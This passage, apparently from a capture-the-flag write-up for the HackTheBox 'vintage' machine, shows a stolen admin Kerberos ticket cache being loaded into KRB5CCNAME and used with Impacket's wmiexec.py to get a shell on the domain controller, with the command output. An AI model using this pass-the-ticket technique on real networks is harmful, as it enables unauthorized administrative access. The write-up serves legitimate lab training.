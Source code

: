 ```console
```
Set the `KRB5CCNAME` env var and authenticate with `wmiexec`:
```console
# export KRB5CCNAME=L.BIANCHI_ADM.ccache
# wmiexec.py -k "dc01.vintage.htb"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vintage\l.bianchi_adm

C:\>
```
And just like that we have root!